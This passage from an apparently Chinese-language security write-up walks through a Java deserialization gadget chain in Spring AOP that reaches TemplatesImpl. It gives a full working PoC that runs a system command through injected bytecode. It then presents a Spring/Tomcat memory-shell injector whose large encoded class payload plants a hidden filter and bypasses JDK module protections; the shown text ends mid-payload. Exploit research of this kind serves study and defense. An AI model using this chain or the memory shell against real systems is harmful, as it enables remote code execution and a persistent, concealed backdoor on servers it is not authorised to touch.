        return this.invokeAdviceMethod(pjp, jpm, (Object)null, (Throwable)null);
    } else {
        throw new IllegalStateException("MethodInvocation is not a Spring ProxyMethodInvocation: " + String.valueOf(mi));
    }
}
```

检测是否是 spring 代理调用，跟进

```java
@Nullable
protected Object invokeAdviceMethod(JoinPoint jp, @Nullable JoinPointMatch jpMatch, @Nullable Object returnValue, @Nullable Throwable t) throws Throwable {
    return this.invokeAdviceMethodWithGivenArgs(this.argBinding(jp, jpMatch, returnValue, t));
}
```

参数赋值过程，跟进

```java
@Nullable
protected Object invokeAdviceMethodWithGivenArgs(Object[] args) throws Throwable {
    Object[] actualArgs = args;
    if (this.aspectJAdviceMethod.getParameterCount() == 0) {
        actualArgs = null;
    }

    Object aspectInstance = this.aspectInstanceFactory.getAspectInstance();
    if (aspectInstance.equals((Object)null)) {
        JoinPoint var5 = this.getJoinPoint();
        if (var5 instanceof ProceedingJoinPoint) {
            ProceedingJoinPoint pjp = (ProceedingJoinPoint)var5;
            return pjp.proceed();
        } else {
            return null;
        }
    } else {
        try {
            ReflectionUtils.makeAccessible(this.aspectJAdviceMethod);
            return this.aspectJAdviceMethod.invoke(aspectInstance, actualArgs);
        } catch (IllegalArgumentException ex) {
            throw new AopInvocationException("Mismatch on arguments to advice method [" + String.valueOf(this.aspectJAdviceMethod) + "]; pointcut expression [" + String.valueOf(this.pointcut.getPointcutExpression()) + "]", ex);
        } catch (InvocationTargetException ex) {
            throw ex.getTargetException();
        }
    }
}
```

这里看就相当于反射了，跟进

```java
@CallerSensitive
@ForceInline // to ensure Reflection.getCallerClass optimization
@IntrinsicCandidate
public Object invoke(Object obj, Object... args)
    throws IllegalAccessException, IllegalArgumentException,
       InvocationTargetException
{
    if (!override) {
        Class<?> caller = Reflection.getCallerClass();
        checkAccess(caller, clazz,
                    Modifier.isStatic(modifiers) ? null : obj.getClass(),
                    modifiers);
    }
    MethodAccessor ma = methodAccessor;             // read volatile
    if (ma == null) {
        ma = acquireMethodAccessor();
    }
    return ma.invoke(obj, args);
}
```

到了原生的 invoke，那么就能够调用`TemplatesImpl#getOutputProperties`了，写个 poc

需要注意一个问题就是 Advice 方法通常需要接收参数，我们需要先传一串无害的避免调用失败。

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.springframework.aop.Advisor;
import org.springframework.aop.aspectj.AspectJAroundAdvice;
import org.springframework.aop.aspectj.AspectJExpressionPointcut;
import org.springframework.aop.aspectj.SingletonAspectInstanceFactory;
import org.springframework.aop.framework.AdvisedSupport;
import org.springframework.aop.framework.DefaultAdvisorChainFactory;
import org.springframework.aop.support.NameMatchMethodPointcutAdvisor;
import org.springframework.aop.target.SingletonTargetSource;
import sun.misc.Unsafe;

import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.ArrayList;
import java.util.List;
import java.util.Map;
import java.util.Vector;

public class Poc {

    public static void main(String[] args) throws Exception {
        patchModule(Poc.class);

        Object templates = createTemplatesImplByUnsafe("open -a Calculator");
        SingletonAspectInstanceFactory factory = new SingletonAspectInstanceFactory(templates);

        AspectJAroundAdvice advice = (AspectJAroundAdvice) allocateInstance(AspectJAroundAdvice.class);
        setField(advice, "aspectInstanceFactory", factory);
        setField(advice, "declaringClass", Templates.class);
        setField(advice, "methodName", "getOutputProperties");
        setField(advice, "parameterTypes", new Class[0]);

        AspectJExpressionPointcut pointcut = (AspectJExpressionPointcut) allocateInstance(AspectJExpressionPointcut.class);
        setField(pointcut, "expression", "");
        setField(advice, "pointcut", pointcut);
        setIntField(advice, "joinPointArgumentIndex", -1);
        setIntField(advice, "joinPointStaticPartArgumentIndex", -1);

        NameMatchMethodPointcutAdvisor advisor = new NameMatchMethodPointcutAdvisor(advice);
        advisor.setMappedName("toString");
        List<Advisor> advisors = new ArrayList<>();
        advisors.add(advisor);

        Class<?> jdkDynamicProxyClass = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> proxyConstructor = jdkDynamicProxyClass.getDeclaredConstructor(AdvisedSupport.class);
        proxyConstructor.setAccessible(true);

        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTargetSource(new SingletonTargetSource("target"));

        setField(advisedSupport, "advisors", advisors);
        setField(advisedSupport, "advisorChainFactory", new DefaultAdvisorChainFactory());

        InvocationHandler handler = (InvocationHandler) proxyConstructor.newInstance(advisedSupport);

        Object proxy = Proxy.newProxyInstance(
                Poc.class.getClassLoader(),
                new Class[]{Map.class},
                handler
        );

        EventListenerList listenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();
        Vector edits = (Vector) getField(undoManager, "edits");
        edits.add(proxy);
        setField(listenerList, "listenerList", new Object[]{Class.class, undoManager});


        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(listenerList);
        oos.close();

        ByteArrayInputStream bais = new ByteArrayInputStream(barr.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
    }

    private static Unsafe getUnsafe() {
        try {
            Field f = Unsafe.class.getDeclaredField("theUnsafe");
            f.setAccessible(true);
            return (Unsafe) f.get(null);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    private static Object allocateInstance(Class<?> clazz) {
        try {
            return getUnsafe().allocateInstance(clazz);
        } catch (InstantiationException e) {
            throw new RuntimeException(e);
        }
    }

    private static void setField(Object obj, String fieldName, Object value) {
        try {
            Field field = null;
            Class<?> clazz = obj.getClass();
            while (clazz != null) {
                try {
                    field = clazz.getDeclaredField(fieldName);
                    break;
                } catch (NoSuchFieldException e) {
                    clazz = clazz.getSuperclass();
                }
            }
            if (field == null) throw new NoSuchFieldException(fieldName);

            Unsafe unsafe = getUnsafe();
            long offset = unsafe.objectFieldOffset(field);
            unsafe.putObject(obj, offset, value);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    private static void setIntField(Object obj, String fieldName, int value) {
        try {
            Field field = null;
            Class<?> clazz = obj.getClass();
            while (clazz != null) {
                try {
                    field = clazz.getDeclaredField(fieldName);
                    break;
                } catch (NoSuchFieldException e) {
                    clazz = clazz.getSuperclass();
                }
            }
            if (field == null) throw new NoSuchFieldException(fieldName);

            Unsafe unsafe = getUnsafe();
            long offset = unsafe.objectFieldOffset(field);
            unsafe.putInt(obj, offset, value);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    private static Object getField(Object obj, String fieldName) {
        try {
            Field field = null;
            Class<?> clazz = obj.getClass();
            while (clazz != null) {
                try {
                    field = clazz.getDeclaredField(fieldName);
                    break;
                } catch (NoSuchFieldException e) {
                    clazz = clazz.getSuperclass();
                }
            }
            if (field == null) throw new NoSuchFieldException(fieldName);

            Unsafe unsafe = getUnsafe();
            long offset = unsafe.objectFieldOffset(field);
            return unsafe.getObject(obj, offset);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    private static Object createTemplatesImplByUnsafe(String cmd) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass evilClass = pool.makeClass("Evil" + System.nanoTime());
        evilClass.makeClassInitializer().insertAfter("java.lang.Runtime.getRuntime().exec(\"" + cmd + "\");");

        byte[] evilBytes = evilClass.toBytecode();
        CtClass stubClass = pool.makeClass("Stub" + System.nanoTime());
        byte[] stubBytes = stubClass.toBytecode();

        Object templates = allocateInstance(TemplatesImpl.class);

        setField(templates, "_bytecodes", new byte[][]{evilBytes, stubBytes});
        setField(templates, "_name", "Pwnd");
        setIntField(templates, "_transletIndex", 0);

        return templates;
    }

    private static void patchModule(Class<?> clazz) {
        try {
            Unsafe unsafe = getUnsafe();
            Module javaBaseModule = Object.class.getModule();
            long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.putObject(clazz, offset, javaBaseModule);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
//--add-opens=java.base/sun.nio.ch=ALL-UNNAMED --add-opens=java.base/java.lang=ALL-UNNAMED --add-opens=java.base/java.io=ALL-UNNAMED --add-opens=jdk.unsupported/sun.misc=ALL-UNNAMED --add-opens java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens=java.base/java.lang.reflect=ALL-UNNAMED
```



调用栈

```java
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:608)
at jdk.internal.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at jdk.internal.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:77)
at jdk.internal.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:568)
at org.springframework.aop.aspectj.AbstractAspectJAdvice.invokeAdviceMethodWithGivenArgs(AbstractAspectJAdvice.java:637)
at org.springframework.aop.aspectj.AbstractAspectJAdvice.invokeAdviceMethod(AbstractAspectJAdvice.java:627)
at org.springframework.aop.aspectj.AspectJAroundAdvice.invoke(AspectJAroundAdvice.java:71)
at org.springframework.aop.framework.ReflectiveMethodInvocation.proceed(ReflectiveMethodInvocation.java:184)
at org.springframework.aop.framework.JdkDynamicAopProxy.invoke(JdkDynamicAopProxy.java:220)
at jdk.proxy1.$Proxy0.toString(Unknown Source:-1)
at java.lang.String.valueOf(String.java:4222)
at java.lang.StringBuilder.append(StringBuilder.java:173)
at java.util.AbstractCollection.toString(AbstractCollection.java:457)
at java.util.Vector.toString(Vector.java:1083)
at java.lang.StringConcatHelper.stringOf(StringConcatHelper.java:453)
at java.lang.invoke.DirectMethodHandle$Holder.invokeStatic(DirectMethodHandle$Holder:-1)
at java.lang.invoke.LambdaForm$MH/0x0000019eb50a4400.invoke(LambdaForm$MH:-1)
at java.lang.invoke.LambdaForm$MH/0x0000019eb50a4c00.linkToTargetMethod(LambdaForm$MH:-1)
at javax.swing.undo.CompoundEdit.toString(CompoundEdit.java:266)
at javax.swing.undo.UndoManager.toString(UndoManager.java:695)
at java.lang.StringConcatHelper.stringOf(StringConcatHelper.java:453)
at java.lang.invoke.DirectMethodHandle$Holder.invokeStatic(DirectMethodHandle$Holder:-1)
at java.lang.invoke.LambdaForm$MH/0x0000019eb509ec00.invoke(LambdaForm$MH:-1)
at java.lang.invoke.Invokers$Holder.linkToTargetMethod(Invokers$Holder:-1)
at javax.swing.event.EventListenerList.add(EventListenerList.java:213)
at javax.swing.event.EventListenerList.readObject(EventListenerList.java:309)
at jdk.internal.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at jdk.internal.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:77)
at jdk.internal.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:568)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1104)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2434)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2268)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1744)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:514)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:472)
at org.example.Poc.main(Poc.java:89)
```

远程不出网，用 Java-chains 生成一个 tomcat 内存马



写一个 Spring 环境内存马注入器，注意绕过高版本机制

```java
package org.example;

import javassist.ClassPool;
import javassist.CtClass;
import sun.misc.Unsafe;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Base64;

public class springMemshell {
//    String className = "org.apache.beanutils.coyote.MapperFeature864b3ae3a6494fe0a00288bdf37e46cb";
//    String base64Payload = "yv66vgAAADIBhAEASW9yZy9hcGFjaGUvYmVhbnV0aWxzL2NveW90ZS9NYXBwZXJGZWF0dXJlODY0YjNhZTNhNjQ5NGZlMGEwMDI4OGJkZjM3ZTQ2Y2IHAAEBABBqYXZhL2xhbmcvT2JqZWN0BwADAQANZ2V0VXJsUGF0dGVybgEAFCgpTGphdmEvbGFuZy9TdHJpbmc7AQACLyoIAAcBAAxnZXRDbGFzc05hbWUBAFtvcmcuYXBhY2hlLmJlYW51dGlscy5jb3lvdGUuaW50cm9zcGVjdC5Bbm5vdGF0ZWRDb25zdHJ1Y3RvcmQ2N2VlNTA0MGZmNjQyNTFiYzA5MDY5YmNhZTk2MjdmCAAKAQAPZ2V0QmFzZTY0U3RyaW5nAQATamF2YS9pby9JT0V4Y2VwdGlvbgcADQEAEGphdmEvbGFuZy9TdHJpbmcHAA8BCpBINHNJQUFBQUFBQUFBTFZYQ1hjVDF4WCtuaVY3WkZtRUlJS3hnQVFuS1dCWnRtV01GeXdURXN1WTRNUTJLYUttanBPMkkybGt5UWlOMEl3SW9rdmFkRW02cDAyM2ROOUpkOUlHR1FjQ2RBc05UWnR1N3I5SlQ3ODNJOG0yTEJ2TzZlazUxc3k4OSs3NzdyM2ZYZDd6emYrOGVoWEFYdnhiWUViUHpRYlZyQnBMYXNHb3BtYnlaaXB0QkdONlFUZTFZQ3BqNW5RanE4WE00SEFtbzV1cXFjVkg5SXhoNXZJeFU4L0Yrd2MwcmErN3R6dVI2Ty90NmRzYmpYVVBkdmNQUm1PcU50amZNNUJRSUFTMnpLbG4xR0JhemN3R1I5S3FZWXpyYWx6TEtYQUkzQ1dYemdZTkxYY21yWm5CdzZtMEtWZnFCY1FzTjdiTmhQM2pWYnVIQkp3amVsd1QyRGlleW1pVCtWTlJMWGRjamFZNTR4M1hZMnA2U3MybDVMZzA2VFNUS1VQZ3lmSC9vNTgwU2tRRjZtYkNBazF4TFVIRExHTUZ0dEtIc2JIVlhuaHdKemE1NFlSWG9PRkFLcE15RHdvNDJ2eFRIdHlGTFhLaFdXQmJXL1UrbTdzaC94UVZ4b2kreHJvRWFaRWcyd1ZjY2QzbWxhRzI4WllJajlqdlk5cnB2R2FZUTJ1dEdsbFNvVlV2MjZnalNUV1ZzUXphdkdUTDZObVlsalZUZWtiQlRnSEYwQXlEQTRIV0tvaWthV2FEUi9pSTJCTGswYUZINTJSc0xUQVpvK0NFbXVYOGx0TFdXSzZRTmZYZ1NDcWJwS09rUVN1dlZhbm0yaDNHQ3Y4RTdsbmZmK28xVnZvc3NQTVdwRERnaVNVaUJMYXZ3eEtweUpWTjJiTTJGVlUydVhJVlk2cmp0M3BUeGFwZHR3V3ZvRWRnOSsyQkt1Z1YyQkF4MWRoSmhxUlVYZTZrSmpOdVVqMWwxZDlTSENKbUxwV1paU1lPWUg4ajZqQW8wRGlybVVjc2NlcHNXeTNycjdWOUNBZWFzQThQa0dkYjFaU2F6bXNlUEdqRFBpUndaL1V1QlN4RFYwelBtQ1NkTmJoOVJSa2wxVnhFT3ArSmFVUCt4ejA0aEZFM1JuQ1l2dEMrU0RsVjcydnozeXBaUFRpQ01XbmNJd0tibHZMMWlHb2tTWkNDY1RjbTBPeENGMmxia2M0S0htT2laL05NZy8zTGJUc2FuV01IR2xvOTQxODk1Y0V4Ukpyd1RoeDNvZHVGZTFrSmVSZmV6WDZYWlIvdzRIR2JueGttL2ZwdUtIaVNiTkVZaTFnbVpvM0kxTENJamVxOWVGOFQzZ09Wdmd5UFJseUlsWHBBVlpFcUlHb1R1UjFqUDFWSnU0Qi96ZWhYRjdnSHMwaTZrVUNLcGJoQ1FIWnJWbU1zcDVtUGFvVUlSd3BPMGhNcUNoZE1qWEYzdHZsbndoNmNRa1lHV0xlYmNRM0ZWczg5N1VZYVRFeW43TVZTZE15V05MUllQcGN5QzBFcXNVUk41S1U5WjFZa25zMktnck8yQWFYbXY3bXRWdU0vaC9lN1VjQUgyRzJxRmhWOGlFMnJ2Ti91NVFLKzFTaVZOdjloZk1TTnAvR01tNkZtcjkreFhudFQ4SEc3Qm8rVmFuQmJHVGlsQjhQNVJFTExhWEY3amNqUDRya21mQUtmRkdpdUxhUGcwMVp2VXVQeUhPWlozbGF6ZmorTHo3bnhHWHllanNYMXNHcG8vYjJIdEpoMWdEZlh5Z0lac1MvZ2k5S2hGOWd2NWVHVlVkTThKT1ZsUUM1K0dWK1IvSC9WQXdVdUtmWWlzeXVqUGJXVVhTc3RxZFRMTi9CTnlkVzNpRVZDMUxRaGJ4ZzFNcHM5NFR2NHJnelI5MGorbXQxY3dROEVIdnJmVGxTWlQzZmpSMDM0SVg3TS9sTTV1NHp5YVVyV3g0NHVPMDEvc3FxY1M1RExaSDRtVUI5THErZk9zU3ZWdUQwcGNZdiszTXAyWFhLZStYOUd6Zld4b25uMVlZU01mS2JyVk1xSWRZV0hJNlBseU9WYytBMXhFbnFwN2UrNlJTOHZKLzVGRkdVQTVnVTh0ZzEyUXJtd1lPZmxoR1ltOVhpRjFCVjRNNnZ3bG12SWFZbTB2THZaQ0ZSMUdWZWtxdGNFV3RhU1VuQ05tWkRLbk5GUDBvZkJHcGt3YzV1TitMZjRuUnZYOFhzRkcwdE5vVXQyK2k0NzIxMTQzVDVhS3VUOWlYcHRBbHk0eWJaV25VT2xKTk16aWRTc2RiUHlKSmJOc01yWGs3Y0N6T0RwQmRxaVJkV0IvcjdvM29GK2JhL2FuMUJkK0J0MUQ4ZGtycmp3RHhaTy9wQTVOUmM5Zm5MczhERVgvb1Y3V1U5T1VBWU9Qbm1HOEw4RUlZOXc2LzJnOWVhbFhwWWVuNDBjUFVENU9yNGIyd09Pd05WNWJMN0FRUjNjZkRaUUJHeXRUWHcyMjBMd1lBTmdmZDJCalZ3WDhycGJnaHExbEFKYjIrZjU4Lzc5SXA1bzkvN3pJa0x0M3NXTEdINjVBdXkyd0xZU3RNVUM5OWpiU3VBU3NxVUUrVmpKdXBiMndEeDIzQnB6TzFGMkxETzRwV0p3QzN6WVpobDhOKzdoR3RIRkZib290U3dHcm1OZnlObHhIWDJoZXArei9SV0VGbkN3RHEvanBXVWpmZ3dYOGZDTGVFR0tMK0JSZ1ZERFpVeE16Mk15cFBnVTc5SEFBdDdsd0FsK1R2bnFLOThuZkEybDd3YnZORUdlV0VEVUFXLzhFdVpDTHArci9qTFMxblFSV1c5OEhrWVJUMTFHM1hSN0VSOHM0cVB6K0pqUDFVN2tUd2tVOFh3Ulh5cmlhMFY4dllodis1UWl2bi9pUEpvNkF4MExPTy9BZVd3SU5aUUhMOU5WRDI3Z0psb1pGMG5SSS9EeXVaTk90M0xsZmdUeERvU3dpMmZyYmt4aUQ5T2xqWTI1SFFZQ1BPUTY4RHc2Y1FWZHVFYkpHN3dtM2VRL25HK2loMm5XYTFHY0lHb0l6ekRwN2lQbUNCdnUvVVJVdURkTXNuY3h4ZDdrYnplUkd5VEpsVkFzVW8vZkN2a2l0UVdzUUMxU1h5ZnRiTUJiMUJoazJEMTRBOTNVV0k5K3JtK0M4MjFjVTdCUFFaOFNWdERhaUplc0ZLM0RUL0Z6Z3ZITXNhT0t0emxiejNmQis4b2xYSnJvOEw3cWZBMVBUenU4STVFaXJuYVFPSTRMMDQ0QWgzKzRqajlXL2k1TWVHOXd4MlNuOXcwSGQxQlk4RjJnVk1qcGN6SWMzajh2Ui9JNTE4S3hmSk8ybDVuZlpqR3duODlCem9iSTRSQkhCekRPOHBOTUh1UktBNW40Qlg1SkovWmoyUHB5Y0wwVHY4SUZzdEdEaHhuUlBSWlhoUXFUQmZ5YTBzSmlpTlY2bXJ4WXRNZ1cwTXFmeVFqWXBQUlpoY0tjWDZvWXU3ekR5NnBGVklBRi9vSy84bGtHa3d5L1ZTbjBnQ1ZSQTJ4MFdUbFh3UDRMdjhrR3k2MFFBQUE9CAARAQAGPGluaXQ+AQAVKExqYXZhL2xhbmcvU3RyaW5nOylWDAATABQKABAAFQEAAygpVgEAE2phdmEvbGFuZy9FeGNlcHRpb24HABgMABMAFwoABAAaAQAPYnlwYXNzSkRLTW9kdWxlDAAcABcKAAIAHQEACmdldENvbnRleHQBABIoKUxqYXZhL3V0aWwvTGlzdDsMAB8AIAoAAgAhAQAOamF2YS91dGlsL0xpc3QHACMBAAhpdGVyYXRvcgEAFigpTGphdmEvdXRpbC9JdGVyYXRvcjsMACUAJgsAJAAnAQASamF2YS91dGlsL0l0ZXJhdG9yBwApAQAHaGFzTmV4dAEAAygpWgwAKwAsCwAqAC0BAARuZXh0AQAUKClMamF2YS9sYW5nL09iamVjdDsMAC8AMAsAKgAxAQAJZ2V0RmlsdGVyAQAmKExqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsMADMANAoAAgA1AQAJYWRkRmlsdGVyAQAnKExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvT2JqZWN0OylWDAA3ADgKAAIAOQEAJigpTGphdmEvdXRpbC9MaXN0PExqYXZhL2xhbmcvT2JqZWN0Oz47AQAgamF2YS9sYW5nL0lsbGVnYWxBY2Nlc3NFeGNlcHRpb24HADwBAB9qYXZhL2xhbmcvTm9TdWNoTWV0aG9kRXhjZXB0aW9uBwA+AQAramF2YS9sYW5nL3JlZmxlY3QvSW52b2NhdGlvblRhcmdldEV4Y2VwdGlvbgcAQAEAE2phdmEvdXRpbC9BcnJheUxpc3QHAEIKAEMAGgEAEGphdmEvbGFuZy9UaHJlYWQHAEUBAApnZXRUaHJlYWRzCABHAQAMaW52b2tlTWV0aG9kAQA4KExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL09iamVjdDsMAEkASgoAAgBLAQATW0xqYXZhL2xhbmcvVGhyZWFkOwcATQEAB2dldE5hbWUMAE8ABgoARgBQAQAcQ29udGFpbmVyQmFja2dyb3VuZFByb2Nlc3NvcggAUgEACGNvbnRhaW5zAQAbKExqYXZhL2xhbmcvQ2hhclNlcXVlbmNlOylaDABUAFUKABAAVgEABnRhcmdldAgAWAEABWdldEZWDABaAEoKAAIAWwEABnRoaXMkMAgAXQEACGNoaWxkcmVuCABfAQARamF2YS91dGlsL0hhc2hNYXAHAGEBAAZrZXlTZXQBABEoKUxqYXZhL3V0aWwvU2V0OwwAYwBkCgBiAGUBAA1qYXZhL3V0aWwvU2V0BwBnCwBoACcBAANnZXQMAGoANAoAYgBrAQAIZ2V0Q2xhc3MBABMoKUxqYXZhL2xhbmcvQ2xhc3M7DABtAG4KAAQAbwEAD2phdmEvbGFuZy9DbGFzcwcAcQoAcgBQAQAPU3RhbmRhcmRDb250ZXh0CAB0AQADYWRkAQAVKExqYXZhL2xhbmcvT2JqZWN0OylaDAB2AHcLACQAeAEAFVRvbWNhdEVtYmVkZGVkQ29udGV4dAgAegEAFWdldENvbnRleHRDbGFzc0xvYWRlcgEAGSgpTGphdmEvbGFuZy9DbGFzc0xvYWRlcjsMAHwAfQoARgB+AQAIdG9TdHJpbmcMAIAABgoAcgCBAQAZUGFyYWxsZWxXZWJhcHBDbGFzc0xvYWRlcggAgwEAH1RvbWNhdEVtYmVkZGVkV2ViYXBwQ2xhc3NMb2FkZXIIAIUBAAlyZXNvdXJjZXMIAIcBAAdjb250ZXh0CACJAQAaamF2YS9sYW5nL1J1bnRpbWVFeGNlcHRpb24HAIsBABgoTGphdmEvbGFuZy9UaHJvd2FibGU7KVYMABMAjQoAjACOAQATamF2YS9sYW5nL1Rocm93YWJsZQcAkAEADWN1cnJlbnRUaHJlYWQBABQoKUxqYXZhL2xhbmcvVGhyZWFkOwwAkgCTCgBGAJQBAA5nZXRDbGFzc0xvYWRlcgwAlgB9CgByAJcMAAkABgoAAgCZAQAVamF2YS9sYW5nL0NsYXNzTG9hZGVyBwCbAQAJbG9hZENsYXNzAQAlKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL0NsYXNzOwwAnQCeCgCcAJ8MAAwABgoAAgChAQAMZGVjb2RlQmFzZTY0AQAWKExqYXZhL2xhbmcvU3RyaW5nOylbQgwAowCkCgACAKUBAA5nemlwRGVjb21wcmVzcwEABihbQilbQgwApwCoCgACAKkBAAtkZWZpbmVDbGFzcwgAqwEAAltCBwCtAQARamF2YS9sYW5nL0ludGVnZXIHAK8BAARUWVBFAQARTGphdmEvbGFuZy9DbGFzczsMALEAsgkAsACzAQARZ2V0RGVjbGFyZWRNZXRob2QBAEAoTGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvQ2xhc3M7KUxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7DAC1ALYKAHIAtwEAGGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZAcAuQEADXNldEFjY2Vzc2libGUBAAQoWilWDAC7ALwKALoAvQEAB3ZhbHVlT2YBABYoSSlMamF2YS9sYW5nL0ludGVnZXI7DAC/AMAKALAAwQEABmludm9rZQEAOShMamF2YS9sYW5nL09iamVjdDtbTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwwAwwDECgC6AMUBAAtuZXdJbnN0YW5jZQwAxwAwCgByAMgBAA1nZXRGaWx0ZXJOYW1lAQAmKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1N0cmluZzsBAAEuCADMAQALbGFzdEluZGV4T2YBABUoTGphdmEvbGFuZy9TdHJpbmc7KUkMAM4AzwoAEADQAQAJc3Vic3RyaW5nAQAVKEkpTGphdmEvbGFuZy9TdHJpbmc7DADSANMKABAA1AEAIGphdmEvbGFuZy9DbGFzc05vdEZvdW5kRXhjZXB0aW9uBwDWAQAgamF2YS9sYW5nL0luc3RhbnRpYXRpb25FeGNlcHRpb24HANgBABFnZXRDYXRhbGluYUxvYWRlcgwA2gB9CgACANsMAMoAywoAAgDdAQANZmluZEZpbHRlckRlZggA3wEAXShMamF2YS9sYW5nL09iamVjdD